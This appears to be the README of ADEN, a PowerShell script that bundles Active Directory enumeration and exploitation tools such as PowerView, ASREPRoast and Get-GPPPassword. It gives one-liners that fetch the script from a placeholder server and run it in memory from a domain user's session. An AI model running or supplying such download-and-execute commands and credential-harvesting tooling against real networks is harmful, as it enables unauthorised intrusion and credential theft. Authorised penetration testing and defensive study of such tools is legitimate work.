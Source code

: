 ## What is this?
ADEN is a local enumeration script for active directory environments, it is a carefully put together merge of several enumeration and exploitation projects:

- PowerView
- PowerMad
- ASREPRoast
- Get-GPPPassword
- PowerUpSQL


It is to be used as an all-in-one enumeration script to use when you are in a domain user's session.\
\
Big credits to all the authors of the above mentioned tools! You are awesome.

## How to use?
From a low privileged domain's user session, the function ```Invoke-FullEnum``` will launch a full enumeration of the domain.\
\
From a local admin user, the function ```Invoke-AdminEnum``` will launch only the relevant enumeration checks.
```powershell
iex(iwr -usebasicparsing http://[SERVER]/aden.ps1);Invoke-FullEnum
iex(iwr -usebasicparsing http://[SERVER]/aden.ps1);Invoke-AdminEnum
```
Keep in mind you also have access to all the functions of the above mentioned scripts. 

